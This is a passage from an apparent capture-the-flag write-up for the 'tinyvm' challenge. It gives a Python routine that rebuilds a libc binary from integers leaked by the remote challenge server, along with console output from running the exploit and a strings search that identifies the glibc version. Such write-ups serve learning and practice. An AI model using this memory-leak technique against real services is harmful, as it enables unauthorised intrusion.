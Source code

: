 and python part responsible for receiving four byte integers and saving them into a binary file look like this (it is probably overcomplicated): 


```python
def tohex(val, nbits=32):
  return hex((val + (1 << nbits)) % (1 << nbits))[2:].rjust(8, '0')

def leak_libc_binary():
	ints = io.recvall(timeout=60).decode().splitlines()
	ints = list(map(int, ints))
	ints = list(map(tohex, ints))
	ints = list(map(unhex, ints))
	raw_bytes = list(map(lambda h: h[::-1], ints))
	raw_bytes = b''.join(raw_bytes)

	with open("./libc.so", "wb") as f:
		f.write(raw_bytes)

leak_libc_binary()
```

Running code on a remote target produces the following output:

```shell
[*] '/media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 198.11.180.84 on port 6666: Done
[+] Receiving all data: Done (4.84MB)
[*] Closed connection to 198.11.180.84 port 6666
Traceback (most recent call last):
  File "/media/sf_D_DRIVE/rwctf/tinyvm/./solve.py", line 65, in <module>
    leak_libc_binary()
  File "/media/sf_D_DRIVE/rwctf/tinyvm/./solve.py", line 56, in leak_libc_binary
    ints = list(map(int, ints))
ValueError: invalid literal for int() with base 10: '0Segmentation fault'
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ file libc.so
libc.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, stripped
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ xxd libc.so | head -1
00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
```

Now we can grep for the libc version string:

```shell
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ strings libc.so | grep version
versionsort64
gnu_get_libc_version
argp_program_version
versionsort
__nptl_version
argp_program_version_hook
RPC: Incompatible versions of RPC
RPC: Program/version mismatch
<malloc version="1">
Print program version
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.1) stable release version 2.35.
Compiled by GNU CC version 11.2.0.
(PROGRAM ERROR) No version known!?
%s: %s; low version = %lu, high version = %lu
```
